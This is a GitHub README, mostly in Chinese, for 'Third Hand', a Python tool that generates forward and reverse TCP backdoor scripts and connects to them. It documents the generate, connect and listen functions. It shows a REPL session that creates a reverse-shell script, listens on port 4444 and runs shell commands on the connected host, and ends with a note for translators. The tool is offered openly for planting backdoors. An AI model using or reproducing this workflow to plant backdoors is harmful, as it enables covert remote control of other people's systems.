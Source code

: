 # Third Hand

## 生成与连接后门 --ycy20090311

抱歉 由于本人英语能力较差，不得不用中文写.md 请谅解  

### Generate.py如何使用? 

Generate.py包含三个函数
```
def generate(i,src,ip_port):  #生成正反向TCP后门
def connect(ip_port):         #连接正向TCP后门
def listen(ip_port):          #接受反向TCP后门的连接
```    
generate()的使用
```
def generate(i,src,ip_port):  #生成正反向TCP后门
1.当参数i为0 生成的后门脚本为反向TCP
2.当参数i为1 生成的后门脚本为正向TCP
3.参数src为生成脚本路径 例如"/home/hack.py"
4.参数ip_port为一个元组 它是这样的("ip",port)
  当参数i为0 ip_port为本机的ip与端口
  当参数i为1 ip_port为目标的ip与端口
```  
connect()的使用
```
def connect(ip_port):  #连接正向TCP后门
1.参数ip_port为一个元组 它是这样的("ip",port)
2.参数ip_port的值为目标
```
listen()的使用
```
def listen(ip_port):   #接受反向TCP后门的连接
1.参数ip_port为一个元组 它是这样的("ip",port)
2.参数ip_port的值为本机
```
快速用Generate.py生成并连接后门
```
>>> import Generate
>>> Generate.generate(0,"TCPshell.py",("127.0.0.1",4444))
>>> Generate.listen(("127.0.0.1",4444))
正在监听4444端口
$>shell pwd
/home
$>shell ls
xxx.sh
xxx.c
xxx.py
....
$>
```
## Translation --onion108

We officially support `zh_CN`, `en_US` and `ja_JP` translations. If you are interested in translating this software into other languages, just fork it, and go to the `src/thirdhand/Strings.py`, and edit the dictionary `STRINGS`. After doing that, please give us a pull request, and use `[i18n]` as the prefix of your pull request's title.  
Please translate the following text as the content of `str_third_party_warn` when translating as a third-party translator:
```
This translation is offered by a third-party translator.
The translation may be not 100% accurate.
```
